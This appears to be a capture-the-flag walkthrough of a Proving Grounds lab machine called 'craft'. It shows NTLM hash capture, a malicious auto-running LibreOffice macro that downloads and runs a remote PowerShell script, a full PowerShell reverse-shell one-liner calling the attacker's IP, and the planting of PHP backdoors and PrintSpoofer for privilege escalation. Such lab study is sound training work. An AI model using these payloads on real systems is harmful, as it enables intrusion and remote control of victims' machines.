 # Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/craft]
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.212.169
80/tcp open  http

```

## Port enumeration

## Port 80

<img src="../Images/image-20230820181208244.png" alt="image-20230820181208244" style="zoom:80%;" />

Page just shows the get started. Find a upload button.

<img src="../Images/image-20230820181246944.png" alt="image-20230820181246944" style="zoom:80%;" />

<img src="../Images/image-20230820181303958.png" alt="image-20230820181303958" style="zoom:80%;" />

The upload can just upload `odt` file.

<img src="../Images/image-20230820181459002.png" alt="image-20230820181459002" style="zoom:80%;" />

Search the exploit with `odt`, there is an exploit  to generate the odt file. Try to use.

<img src="../Images/image-20230820181551694.png" alt="image-20230820181551694" style="zoom:80%;" />

Then set a `responder` to receive the NTLM hash.

<img src="../Images/image-20230820181634279.png" alt="image-20230820181634279" style="zoom:80%;" />

<img src="../Images/image-20230820181701062.png" alt="image-20230820181701062" style="zoom:80%;" />

Then wait a second. Get the NTLMv2 Hash.

<img src="../Images/image-20230820181723843.png" alt="image-20230820181723843" style="zoom:80%;" />

But the hash can't be crack, also there are not any other ports openning. So create malicious `odt` file by myself.

# Create Malicious odt file

Open `LibreOffice`, choose Macros

<img src="../Images/image-20230820182741058.png" alt="image-20230820182741058" style="zoom:80%;" />

Choose the basic.

<img src="../Images/image-20230820182826196.png" alt="image-20230820182826196" style="zoom:80%;" />

Modify the commands.

<img src="../Images/image-20230820183821725.png" alt="image-20230820183821725" style="zoom:80%;" />

```vb
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.232:8000/shell.ps1')""")
    
End Sub
```

Then go to Tool-Customize-Event, set the automatic event.

<img src="../Images/image-20230820185441157.png" alt="image-20230820185441157" style="zoom:80%;" />

Then save and transfer to `kali`. Make a reverse shell script with PowerShell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.232",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then get Reverse shell.

<img src="../Images/image-20230820185722240.png" alt="image-20230820185722240" style="zoom:80%;" />

<img src="../Images/image-20230820185746014.png" alt="image-20230820185746014" style="zoom:80%;" />

# PE

## User Privilege

<img src="../Images/image-20230820185803811.png" alt="image-20230820185803811" style="zoom:80%;" />

## Check the folder

<img src="../Images/image-20230820185920546.png" alt="image-20230820185920546" style="zoom:80%;" />

There are 2 unusual folder, `java` and `xampp`.

## Check xampp

<img src="../Images/image-20230820190006927.png" alt="image-20230820190006927" style="zoom:80%;" />

We can see right here there are homepage's files.

## Check folder permission

<img src="../Images/image-20230820190039798.png" alt="image-20230820190039798" style="zoom:80%;" />

Check the permission, we can create something here.

<img src="../Images/image-20230820190115266.png" alt="image-20230820190115266" style="zoom:80%;" />

So download the `simple-backdoor.php` to here.

<img src="../Images/image-20230820190248244.png" alt="image-20230820190248244" style="zoom:80%;" />

Can get user apache. Upload the `reverse_shell_windows.php` to get shell.

<img src="../Images/image-20230820190936614.png" alt="image-20230820190936614" style="zoom:80%;" />

<img src="../Images/image-20230820190950747.png" alt="image-20230820190950747" style="zoom:40%;" />

Then visit `reverse_shell_windows.php`, get `apache`.

<img src="../Images/image-20230820191058897.png" alt="image-20230820191058897" style="zoom:80%;" />

## Check Apache privilege

<img src="../Images/image-20230820191053069.png" alt="image-20230820191053069" style="zoom:80%;" />

Download the `PrintSpoofer64.exe` to PE.

<img src="../Images/image-20230820191327250.png" alt="image-20230820191327250" style="zoom:80%;" />

